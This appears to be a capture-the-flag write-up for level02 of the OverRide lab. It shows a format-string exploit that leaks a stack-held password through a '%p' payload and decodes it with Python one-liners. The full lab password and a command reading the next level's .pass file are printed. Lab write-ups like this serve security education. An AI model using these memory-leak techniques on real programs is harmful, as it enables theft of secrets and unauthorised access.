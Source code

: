 # level02

![title screen](Ressources/title_screen02.png)

# [OUR NEW ERA](https://youtu.be/GrQN-zcuPEU?si=pE0aYGj6Z8_r6lcM)

```sh
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: Garp The Hero
--[ Password: Koby
*****************************************
Garp The Hero does not have access!
level02@OverRide:~$ ./level02 Mihawk
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: Dracul Mihawk
--[ Password: Perona
*****************************************
Dracul Mihawk does not have access!
level02@OverRide:~$ 
```

![binary_02-hex-rays](Ressources/binary_02-hex-rays.png)

There only is a main here.

- Factually, the program begin by passing to a variable litterally the password of the next level. It exit if the function `fopen` (for opening the file) or `fread` (for attribute to a variable what `fopen` has read) failed.
- Then, the program asking a `username` but never check it, and asking a `password` and check it with `strcmp` function : it compare it to the variable containing the password of the next level... **IT'S IMPOSSIBLE** !

# <u>Vulnerability</u> : Format String Attack

We can notice the `printf` call when we enter a wrong password, it only have one argument. Naturally we can try to find where the buffer is stocked (the program is in `64 bits ELF format`, so the stack is 8 bytes aligned) :

```sh
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAAAAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
--[ Password: *****************************************
AAAAAAAA 0x7fffffffe4c0 (nil) 0x20 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6b8 0x1f7ff9a08 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x100702520 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x4141414141414141 0x2070255020702520 0x7025207025207025 does not have access!
level02@OverRide:~$
```

We can see the buffer is in the 28th argument, so we can try to overwr-

## _OH !_

Did you see this ?

Starting by the 6th argument, we can see a scheme :

```sh
level02@OverRide:~$ python -c 'print "2520702520702520".decode("hex")'
% p% p%
level02@OverRide:~$ python -c 'print "2070252070252070".decode("hex")'
 p% p% p
level02@OverRide:~$ python -c 'print "7025207025207025".decode("hex")'
p% p% p%
```

It's our string, but in reverse order.

```sh
level02@OverRide:~$ python -c 'print "2520702520702520".decode("hex")[::-1]'
 %p %p %
level02@OverRide:~$ python -c 'print "2070252070252070".decode("hex")[::-1]'
p %p %p
level02@OverRide:~$ python -c 'print "7025207025207025".decode("hex")[::-1]'
%p %p %p
level02@OverRide:~$
```

# I have an idea

![Luffy smiling to Brulée](../assets/luffy_smiling_to_brulee.gif)

When we worked on [_RainFall_](https://github.com/Nimpoo/rainfall), we never have this idea, I don't know why.

If we print **ALL THE `STACK`** and convert all these addresse into ascii, we can maybe find the password of the next level stcked by the variable `ptr`. So, starting by the first at the 20th argument, it'all our buffer and other uninteresting values, let's try to print all the stack starting by the 21th argument :

```sh
level02@OverRide:~$ python -c 'print "756e505234376848".decode("hex")[::-1]'
Hh74RPnu
level02@OverRide:~$ python -c 'print "45414a3561733951".decode("hex")[::-1]'
Q9sa5JAE
level02@OverRide:~$ python -c 'print "377a7143574e6758".decode("hex")[::-1]'
XgNWCqz7
level02@OverRide:~$ python -c 'print "354a35686e475873".decode("hex")[::-1]'
sXGnh5J5
level02@OverRide:~$ python -c 'print "48336750664b394d".decode("hex")[::-1]'
M9KfPg3H
level02@OverRide:~$
```

If we concatenate all these strings, we have the password of the next level **`Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`**

### Now, let's try to log in with this password :

```sh
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: Garp The Hero
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, Garp The Hero!
$ 
```

## We are authenticated !

Now, let's get the flag :

```sh
$ cat /home/users/level03/.pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
$ 
```

# LEZGOOOOOOOOOOOOOOO

![Gomu Gomu no Boh...](../assets/gomu_gomu_no_boh.png)

Now... go to the next level with this password...

```sh
level02@OverRide:~$ su level03
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   /home/users/level03/level03
level03@OverRide:~$ 
```

# level02... complet...

![yeah](../assets/yeah.gif)
